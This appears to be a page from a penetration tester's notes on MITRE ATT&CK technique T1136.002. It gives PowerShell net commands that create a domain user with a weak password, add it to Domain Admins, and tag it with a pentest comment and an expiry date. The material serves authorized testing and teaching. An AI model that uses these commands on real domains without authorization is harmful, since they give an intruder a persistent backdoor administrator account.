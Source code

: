 ```yaml
---
description: MITRE ATT&CK, Persistence, Sub-technique T1136.002
---
```


# Create Account: Domain Account

After obtaining Domain Administrator access in an engagement I like to create a Domain Administrator account to perform all other post exploitation activities from.&#x20;

Steps from a domain controller to create a domain administrator account:

```powershell
net user parzival password123 /add /domain
net group "Domain Admins" parzival /add /domain
net user parzival /comment:"Account created for authorized pentest. Created on XX/XX/XXXX"
net user parzival /expires:XX/XX/XXXX
```
